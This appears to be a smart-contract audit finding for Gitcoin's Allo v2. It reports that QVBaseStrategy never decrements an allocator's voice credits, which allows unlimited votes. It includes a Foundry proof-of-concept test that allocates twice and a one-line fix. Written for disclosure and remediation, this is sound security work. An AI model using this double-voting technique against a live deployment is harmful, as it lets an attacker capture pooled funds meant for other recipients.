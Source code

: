 Faithful Carrot Okapi

high

# Double voting issue in QV Strategy
In `_qv_allocate` function of `QVBaseStrategy` contract `allocator.voiceCredits` are not being incremented after allocator uses some of his `voiceCredits` to vote a recipient. Using this a malicious allocator can assign all the `poolAmount` to a single recipient.


## Vulnerability Detail

1. In the `QVSimpleStrategy`, allocators are intended to be limited to using a maximum of `maxVoiceCreditsPerAllocator` voice credits.
2. This restriction is implemented in the `_allocate` function with the following line:
      ```solidity
       if (!_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)) revert INVALID();
      ```
3. However `allocator.voiceCredits` value is not updated after the allocator uses some credits to vote for a recipient.


## Impact

So a malicious allocator can use an unlimited amount of `voiceCredits` to allocate the entire `poolAmount` to a single recipient.

## Proof of concept
Include this test in `QVSimpleStrategy.t.sol`.
```solidity
 function test_double_voting_issue() public {
        address recipientId = __register_accept_recipient();
        address allocator = randomAddress();

        vm.startPrank(pool_manager2());
        qvSimpleStrategy().addAllocator(allocator);

        vm.warp(allocationStartTime + 10);

        uint MAX_ALLOCATIONS = qvSimpleStrategy().maxVoiceCreditsPerAllocator();

        bytes memory allocateData = __generateAllocation(recipientId, MAX_ALLOCATIONS);

        uint256 usedVoiceCreditsBefore = qvSimpleStrategy().allocators(allocator);
        assertEq(usedVoiceCreditsBefore, 0);

        vm.startPrank(address(allo()));
                // user was able to allocate maxVoiceCreditsPerAllocator twice
        qvSimpleStrategy().allocate(allocateData, allocator);
        qvSimpleStrategy().allocate(allocateData, allocator);

        uint256 usedVoiceCreditsAfter = qvSimpleStrategy().allocators(allocator);
                // usedVoiceCredits is same before and after calling allocate, not incremented
        assertEq(usedVoiceCreditsAfter, usedVoiceCreditsBefore);
    }
```


## Code Snippet

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121)

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L506-L534](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L506-L534)

## Tool used
Manual Review

## Recommendation
```diff
diff --git a/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol b/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol
index 24a99d4..599cebd 100644
--- a/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol
+++ b/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol
@@ -528,6 +528,7 @@ abstract contract QVBaseStrategy is BaseStrategy {
 
         _allocator.voiceCreditsCastToRecipient[_recipientId] += totalCredits;
         _allocator.votesCastToRecipient[_recipientId] += voteResult;
+        _allocator.voiceCredits +=  _voiceCreditsToAllocate;
 
         // emit the event with the vote results
         emit Allocated(_recipientId, voteResult, _sender);
```